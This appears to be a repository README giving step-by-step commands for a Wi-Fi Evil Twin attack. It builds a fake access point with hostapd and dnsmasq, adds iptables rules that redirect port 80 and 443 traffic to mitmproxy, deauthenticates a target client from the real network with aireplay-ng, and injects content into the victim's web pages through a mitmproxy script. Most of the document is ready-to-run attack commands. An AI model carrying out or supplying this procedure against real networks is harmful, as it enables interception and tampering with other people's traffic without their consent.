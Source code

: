 
# Rundown

These instructions will show how to perform a full Evil Twin Attack.

These steps will involve performing the following:
- Creating a Fake Access Point (AP)
- Traffic Injection

The example will flip any website the user goes to,
and launch a 'duck attack'.

# Requirements
https://zsecurity.org/wp-content/uploads/2020/08/fapCommands.txt

Use an up-to-date Kali Linux Installation.

`apt-get update -y && apt-get upgrade -y`

Creating the AP will require the following packages:
- hostapd (creates the access point)
- dnsmasq (DHCP service)

Manipulating web contents will be done using the following package:
- MITMProxy (sniffs traffic and execute MITM attacks)

Ensure the following files are in the same directory,
and that the related interface and ssid have been provided
inside the files.
- hostapd.conf
- dnsmasq.conf

NOTE: when assigning the interfaces, if the interface is `wlan0`,
then the assignment must be `interface=wlan0mon`.

The ssid is just the name of the Wifi (or access point) to be displayed.

# Instructions

Open a root or privileged terminal.
It is assumed from here on that all commands are
executed with privileges, or as the root user.

Alternatively, you may execute the commands on a regular
terminal by prefixing all the following commands with `sudo`.

Ex.
**sudo** airmon-ng check

## Enable monitor mode on wifi interface to be used
The interface will be referred to as `wlan1`.

`airmon-ng start wlan1`

This will create temporarily create a new interface wlan1**mon**.
We will be referring to interface using this new name.

## Route Table and Gateway

```
ifconfig wlan1mon up 192.168.1.1 netmask 255.255.255.0
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
```

## Internet

This next step can be skipped if you do not need to give the
connecting computers internet access.

If you do, this step will require an additional interface
that is connected to the internet.

For this example, that interface will be referred to as `wlan0`,
but the interface can be specified as a wireless card too.

This step modifies the firewall of the machine temporarily
(the changes will be deleted on reboot) to allow connecting
machines to have internet access.
Commands to undo the following changes will be provided.

There are generally two methods of sharing internet:
by bridged network or Network Address Translation (NAT).

A bridged network will cause connecting computers to appear to
access the same **interface** and **subnet** that's used by the host computer.
This is more permissive, and generally not secure.

A good NAT setup (with ip forwarding/masquerading and DHCP service)
will put connecting computers to a dedicated subnet and data from/to
that subnet is translated accordingly, similar to how a router connects
a client to the internet.

In these instructions, we will be setting up a NAT.

Run the following commands:

```
iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
iptables --append FORWARD --in-interface wlan1mon -j ACCEPT
iptables --table nat --append PREROUTING -i wlan1mon -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables --table nat --append PREROUTING -i wlan1mon -p tcp --dport 443 -j REDIRECT --to-port 8080
echo 1 > /proc/sys/net/ipv4/ip_forward
```

To undo these commands:
```
iptables --table nat --delete POSTROUTING --out-interface wlan0 -j MASQUERADE
iptables --delete FORWARD --in-interface wlan1mon -j ACCEPT
iptables --table nat --delete PREROUTING -i wlan1mon -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables --table nat --delete PREROUTING -i wlan1mon -p tcp --dport 443 -j REDIRECT --to-port 8080
echo 0 > /proc/sys/net/ipv4/ip_forward
```

## Creating Access Point

Start each service on its own (root, or run with privileges using `sudo`)
terminal.

```
hostapd hostapd.conf
dnsmasq -C dnsmasq.conf
```

## Deauthenticating Client
https://charlesreid1.com/wiki/Evil_Twin/Setup
https://xerosploit.readthedocs.io/en/latest/proxying/http.html

We need to first locate the MAC address of the target client.
This will require using the MAC address of the `Good Twin` our
host is replicating.

Assume in this case that the Good Twin's MAC addr is: AA:BB:CC:DD:EE

```
airodump-ng -d AA:BB:CC:DD:EE wlp4s0
```

You should eventually see the client, and their MAC Address.
In this example, we will assume that address to be EE:DD:CC:BB:AA

This next step will use that information to kick the target client
out of the Good Twin.

```
aireplay-ng -0 1 -a AA:BB:CC:DD:EE -c EE:DD:CC:BB:AA wlp4s0
```

Assuming the fake access point is setup accordingly, this process
should cause the target client to automatically connect to that AP
instead of the Good Twin.

## Traffic Injection
https://charlesreid1.com/wiki/MITM/Traffic_Injection

Our example will perform an HTML Injection that flips the web content
the user is trying to view.

```
mitmproxy --set tls_version_client_min=SSL3 --mode transparent --showhost -s flip.py
```


